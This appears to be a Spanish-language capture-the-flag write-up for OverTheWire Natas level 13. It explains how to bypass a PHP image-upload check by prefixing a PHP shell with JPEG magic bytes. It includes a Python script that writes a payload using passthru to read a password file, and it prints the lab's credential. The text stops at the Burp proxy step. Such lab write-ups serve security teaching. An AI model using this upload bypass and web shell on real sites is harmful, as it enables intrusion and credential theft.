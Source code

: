 #Natas Level 12 → Level 13

Username: natas13

URL:      http://natas13.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas13.natas.labs.overthewire.org** 
- **Usuario    : natas13**
- **Contraseña : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un mensaje parecido a la prueba anterior indicando que solamente podemos subir ficheros **JPG** 

```html
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
```

Vamos a ver si ha cambiado el código fuente desde la prueba anterior.

```php
<?
...
if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
...
```

En principio todas las demás funciones son iguales menos una parte del código de arriba que comprueba si el fichero subido es un fichero **JPG**

```php
...
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) 
{ 
        echo "File is not an image"; 
}
...
```

Bueno, en este caso tenemos que **engañar** a la función **exif_imagetype()** para que acepte el **phpShell.php** como imagen.

¿Y como hacemos eso?

Primero que nada vamos a ver que hace exactamente la funcion **exif_imagetype()**

Vamos a la página oficial de [PHP](http://php.net/docs.php) y miramos la documentación para la función [exif_imagetype](http://php.net/manual/es/function.exif-imagetype.php)

Leemos la documentación y parece que solamente **lee** los **primeros bytes** del fichero para determinar de que tipo es.

```php
exif_imagetype

(PHP 4 >= 4.3.0, PHP 5, PHP 7)
exif_imagetype — Determinar el tipo de una imagen

Descripción 

int exif_imagetype ( string $filename )
exif_imagetype() lee los primeros bytes de una imagen y comprueba su firma.
```

Ahora la pregunta es:
- ¿Cómo **cambiamos** los **primeros bytes** del fichero **phpShell.php** para que sea un **JPG**? 
- ¿Cómo sabemos que **parametro** tenemos que escribir en los **primeros bytes** del fichero para que el **fichero.php** parezca un **JPG**?

Vamos por partes. Primero tenemos que saber como identifica la función **exif_imagetype()** que un fichero es de un tipo u otro leyendo lo **primeros bytes**. 

Buscamos en **Google** acerca de los primeros bytes de los ficheros y nos encontramos con una web [Magic Numbers](https://asecuritysite.com/forensics/magic) que nos hablan de los **primero bytes** de distintos ficheros (JPG,PNG,ZIP,...) que al parecer se llaman **MAGIC NUMBERS**

A nosotros nos interesa el valor del fichero **JPG**

```html
JPEG graphic file	.jpg	FFD8
```

Por lo tanto  tenemos que cambiar los **primeros bytes** del fichero **phpShell.php** a:

```hex
FFD8
```

Podemos utilizar un **Editor Hexadecimal** para cambiarle los primeros bytes o hacer un **Script** en **Python** que nos ayude a escribir eso bytes en el fichero.

El script en **Python** es bastante sencillo de hacer, por lo que lo hacemos así :smile:

```python
fichero = open('phpShell.php','w')  
fichero.write('\xFF\xD8' + '<? passthru("cat /etc/natas_webpass/natas14"); ?>')  
fichero.close()
```

- 1 Abrimos el fichero **phpShell.php** en modo **escritura**
- 2 Escribimos los **primeros bytes** -> **FFD8** al fichero
- 3 Seguimos escribiendo nuestro código para que nos devuelva la contraseña
    - ```php <? passthru("cat /etc/natas_webpass/natas14"); ?> ``` 
- 4 Cerramos el fichero
    
Bueno ya tenemos el fichero preparado y ahora solo nos queda realizar las mismas acciones que en la prueba anterior. 

Configuramos el **Proxy** a **localhost:8080** en el navegador y arrancamos el **BURP** para interceptar el tráfico que enviamos y poder modificarlo posteriormente y saltarnos los controles de acceso.








 












 





